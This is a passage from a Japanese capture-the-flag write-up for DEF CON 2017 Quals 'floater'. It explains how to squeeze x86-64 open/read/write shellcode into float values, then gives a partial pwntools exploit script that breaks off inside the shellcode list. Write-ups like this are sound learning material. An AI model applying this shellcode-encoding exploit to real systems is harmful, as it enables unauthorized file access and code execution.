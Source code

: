 まとめると,

1. **shellcode は↑の処理を通しても変化しない25個の `float` 値で送る必要がある**
  - 小数点以下の数を持っていなければいい?
2. **shellcode の 4bytes 毎に 0x00000000 が入ることを考慮する必要がある**
  - 送られた `float` 値 (32bits) は 64bits の領域に順に書き込まれるため

いろいろ試したところ, shellcode を 3bytesの命令 + 0x68 (`push imm32`) で構成することで上手く行った.  
例えば `mov rdi, rax` は 0x48 0x89 0xc7, `push 0` は 0x68 0x00 0x00 0x00 0x00 となり, little-endian に直したときの下位 32bits の値 0x68c78948 を `float` として解釈してみると 7.538266577407427e+24 になるという感じである.

    $ python
    Python 2.7.13 (default, Feb 11 2017, 12:22:40) 
    [GCC 6.3.1 20170109] on linux2
    Type "help", "copyright", "credits" or "license" for more information.
    >>> import struct
    >>> struct.unpack('!f', '\x68\xc7\x89\x48')[0]
    7.538266577407427e+24

実際に作成したスクリプトと実行結果は次の通り.  
使えるシステムコールが限定されているので, Flag を `open` -> `read` -> `write` する shellcode を書いた. この縛りでファイル名 `"flag"` を生成することは厳しかったので, 最初に `read` してこちらから送り込むことで対処した. また, `mov rdi, 数値` のような命令は 3bytes に収まらないので, `xor rax, rax ; lea rdi, [rax+数値]` のような命令で何とかした.

```python
#!/usr/bin/env python2

# DEF CON 2017 Quals : floater

from pwn import *
import struct
import sys

context(os='linux', arch='amd64')

if 'remote' in sys.argv:
    r = remote('floater_f128edcd6c7ecd2ceac15235749c1565.quals.shallweplayaga.me', 754)
else:
    r = process('./floater-patched')

shellcode = [
    # read(0, stack, 0x80)
    '\x48\x89\xe6',   # mov rsi, rsp
    '\x48\x31\xc0',   # xor rax, rax
    '\x48\x89\xc7',   # mov rdi, rax
    '\x8d\x50\x10',   # lea rdx, [rax+10]
    '\x48\x01\xd2',   # add rdx, rdx (rdx=0x20)
    '\x48\x01\xd2',   # add rdx, rdx (rdx=0x40)
    '\x48\x01\xd2',   # add rdx, rdx (rdx=0x80)
    '\x0f\x05\x90',   # syscall ; nop
    # save big number
    '\x49\x89\xd0',   # mov r8, rdx
    # open(stack, 0, 0)
    '\x48\x89\xf7',   # mov rdi, rsi
    '\x48\x31\xf6',   # xor rsi, rsi
    '\x48\x31\xd2',   # xor rdx, rdx
    '\x8d\x42\x02',   # lea rax, [rdx+2]
    '\x0f\x05\x90',   # syscall ; nop
    # read(fd, stack, 0x80)
    '\x48\x89\xc7',   # mov rdi, rax
    '\x48\x89\xe6',   # mov rsi, rsp
    '\x4c\x89\xc2',   # mov rdx, r8
    '\x48\x31\xc0',   # xor rax, rax
    '\x0f\x05\x90',   # syscall ; nop
    # write(1, rsp, 0x80)
    '\x4c\x89\xc2',   # mov rdx, r8
```

[^1]: これの一種かな? [Function Attributes - Using the GNU Compiler Collection (GCC)](https://gcc.gnu.org/onlinedocs/gcc-5.4.0/gcc/Function-Attributes.html)